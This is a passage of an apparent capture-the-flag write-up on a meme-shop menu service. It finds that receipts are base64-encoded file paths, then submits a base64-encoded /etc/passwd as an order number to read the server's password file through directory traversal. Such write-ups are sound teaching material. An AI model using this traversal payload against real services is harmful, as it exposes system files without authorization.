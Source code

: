Additionally, you can select mr skeletal, and it asks you to enter something:

```
> m

░░░░░░░░░░░░▄▐
░░░░░░▄▄▄░░▄██▄
░░░░░▐▀█▀▌░░░░▀█▄
░░░░░▐█▄█▌░░░░░░▀█▄
░░░░░░▀▄▀░░░▄▄▄▄▄▀▀
░░░░▄▄▄██▀▀▀▀
░░░█▀▄▄▄█░▀▀
░░░▌░▄▄▄▐▌▀▀▀
▄░▐░░░▄▄░█░▀▀ U HAVE BEEN SPOOKED BY THE
▀█▌░░░▄░▀█▀░▀
░░░░░░░▄▄▐▌▄▄
░░░░░░░▀███▀█░▄
░░░░░░▐▌▀▄▀▄▀▐▄SPOOKY SKILENTON
░░░░░░▐▀░░░░░░▐▌
░░░░░░█░░░░░░░░█
░░░░░▐▌░░░░░░░░░█
░░░░░█░░░░░░░░░░▐▌SEND THIS TO 7 PPL OR SKELINTONS WILL EAT YOU
so... what do you say to mr skeletal?
```

When you're done, you can check out:

```
> c

ur receipt is at L3RtcC9tZW1lMjAxNTA5MjEtMTIxMC1kb2RyY3c=
you are going to get memed on so hard with no calcium
bye
```

Interesting! So, when we check out, our receipt is a base64 encoded filename. Base64 decoding it gives `/tmp/meme20150921-1210-dodrcw`. Let's try the "print receipt from confirmation number" options.

```
> p

ok, let me know your order number bro: L3RtcC9tZW1lMjAxNTA5MjEtMTIxMC1kb2RyY3c=
ok heres ur receipt or w/e
u got memed on 2 times, memerino
```

## Directory traversal

Can we base64 encode anything and put it in there, like `/etc/passwd` (`L2V0Yy9wYXNzd2Q=`)?

```
> p

ok, let me know your order number bro: L2V0Yy9wYXNzd2Q=
ok heres ur receipt or w/e
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```
